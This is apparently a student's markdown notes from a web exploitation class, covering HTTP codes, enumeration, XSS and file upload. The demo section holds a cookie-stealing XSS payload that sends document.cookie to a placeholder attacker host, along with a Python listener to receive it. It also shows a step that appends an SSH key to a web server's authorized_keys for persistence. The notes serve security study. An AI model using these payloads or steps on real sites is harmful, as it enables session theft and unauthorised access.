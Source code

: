 # Web Exploitation


# HTTP Response Codes

- 10X = Informational

- 2XX = Success

- 30X = Redirection

- 4XX = Client Error

- 5XX = Server Error
# Enumeration

- Robots.txt: list off different directorys contained in web server
# Cross-Site Scripting (XSS) Overview
- Allows us to arbitaurily place code on a webpage


# Reflected XSS

- Deliver something to server and someone clicks it similiar to phishing through a email

- You put the vulnerability on the server and someone else interacts with it
# Stored XSS

- Already on server and know how to exploit

- The server already has the vulnerability and you interact with it

- example with scripts
  - <script>alert('XSS');</script> = tells us if a site is vulnerble to XSS

  - <img src="http://invalid" onerror="window.open('http://10.50.28.71/java/fruit-7.jpg','xss','height=1,width=1');">(check code)

# Malicious File Upload

- Site alows unsanitized file uploads

- Does not check extension, Allows for code execution
# Demo 

- Script
  - Script http-enum.nse (run when a http port is open {80})

- python3 -m http.server

- <script>document.location="http://<LinopIP>:8000/"+document.cookie;</script>

- ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/9aktlN9GzIIUWJGEVAClDU5v7AM4M8MbT5ETYTjlnG8Lte+2V11I5dnksfLZcNcYhUF7ai0eD4/xtn3lm8QOK+6nLd1mCoh9OKnB7U9ulN4YQdSPkTYBoACMHGeu4rp73W5u1yBDK8fdLsX5f7ZumcRvqGYGDDHF9SdShDWCVRo9rt7hicLo/MyYCRDnM+VTUtvCtQm4VfyAnlSyoDlPy26WTR9cADKOblJ2OFmD/VbsKZaRZAghoqNJjLGPL1dbXNTVVgJwo3cExkDrnOopUmUPqFPmnU2cNMEtF/Wp+donsEFhxfnSI0jl7pD8tiO4j2vKnrCoEJ0nDOnreZVV student@lin-ops

- ssh "public Key" >> var/www/ .ssh/authroized_keys
# CTF

- 
